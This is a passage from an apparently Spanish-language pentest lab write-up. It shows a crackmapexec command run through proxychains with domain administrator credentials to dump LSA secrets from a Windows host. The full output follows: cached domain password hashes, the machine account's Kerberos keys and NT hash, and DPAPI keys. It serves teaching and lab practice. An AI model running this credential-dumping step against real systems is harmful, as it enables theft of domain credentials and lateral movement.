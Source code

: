 Vemos que ha funcionado y nos lo ha volcado.

O si queremos mejor saber todos los usuarios `cacheados` del sistema a nivel de dominio con el `lsass`.

```shell
proxychains4 crackmapexec smb 192.168.5.208 -u 'Administrator' -d 'corp' -p '1234' --lsa
```

Info:

```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:135 <--denied
SMB         192.168.5.208   445    WS01             [*] Windows 10 / Server 2019 Build 19041 (name:WS01) (domain:corp) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
SMB         192.168.5.208   445    WS01             [+] corp\Administrator:1234 (Pwn3d!)
SMB         192.168.5.208   445    WS01             [+] Dumping LSA secrets
SMB         192.168.5.208   445    WS01             CORP.LOCAL/empleado1:$DCC2$10240#empleado1#fda53d6158406f827388476bcbc97c37: (2025-01-25 08:10:18)
SMB         192.168.5.208   445    WS01             CORP.LOCAL/Administrator:$DCC2$10240#Administrator#e1c8d7e26653ae629a74772a389cf7e6: (2025-01-21 09:28:20)
SMB         192.168.5.208   445    WS01             CORP.LOCAL/annice.mable:$DCC2$10240#annice.mable#77702054bffe13f7c5bbe919a228d985: (2025-01-12 11:36:13)
SMB         192.168.5.208   445    WS01             CORP.LOCAL/angelika.shelly:$DCC2$10240#angelika.shelly#835512d4e4bb1d962c57d290eb99f670: (2025-01-12 16:51:40)
SMB         192.168.5.208   445    WS01             CORP\WS01$:aes256-cts-hmac-sha1-96:9a9fc7447f8fa5521eeef5af175be7af2189392bc0d56f2e7d41e4c15cdad294
SMB         192.168.5.208   445    WS01             CORP\WS01$:aes128-cts-hmac-sha1-96:73670fc7a88720c24ff4c869dc84a9c1
SMB         192.168.5.208   445    WS01             CORP\WS01$:des-cbc-md5:8c5bea107cc8c804
SMB         192.168.5.208   445    WS01             CORP\WS01$:plain_password_hex:5700320055006b0049004e0027003d005e0055005c00750052004c0077006e004e00510045003c002d0066005d004b005f007600330072004400350022002700750068004e00300041003d0024006c004e0022005700750065006b00640034004a0056006f003e006c005f006c0050005c005d002700360077002c00290033005e005d004f005e005100560027002e003200380029004f0078005100410049002c003a0025005f00680072005d00380034002500490068002200640045006f0072005c0063002d0022005f002f006f0065006700720022005f0061006c00780047006400590062007700770059005f00     
SMB         192.168.5.208   445    WS01             CORP\WS01$:aad3b435b51404eeaad3b435b51404ee:afc5c02d936d73808ce716070e883ab8:::
SMB         192.168.5.208   445    WS01             dpapi_machinekey:0x6be6aee6bc489e7fab1ed9a63b1aa5c0d2f13fef
dpapi_userkey:0xb83f8122ee552579d8fbf4d9b304ae19ab5bb7af                                                                                                                                     
SMB         192.168.5.208   445    WS01             NL$KM:5cb53b8cd528a0c36af257a308b6f7d4e47d11848f2c982b2ddd067d3053b4234b8dc77e92965b4867299950c1e427a6372c9d99e8fd5711cc4447ed306f9600
SMB         192.168.5.208   445    WS01             [+] Dumped 11 LSA secrets to /home/kali/.cme/logs/WS01_192.168.5.208_2025-01-25_050803.secrets and /home/kali/.cme/logs/WS01_192.168.5.208_2025-01-25_050803.cached
```

